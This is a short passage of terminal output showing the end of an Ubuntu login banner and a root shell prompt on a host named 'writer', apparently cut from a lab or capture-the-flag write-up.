  IPv6 address for eth0: dead:beef::250:56ff:feb9:c605


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Aug  2 07:27:54 2021
root@writer:~# 
```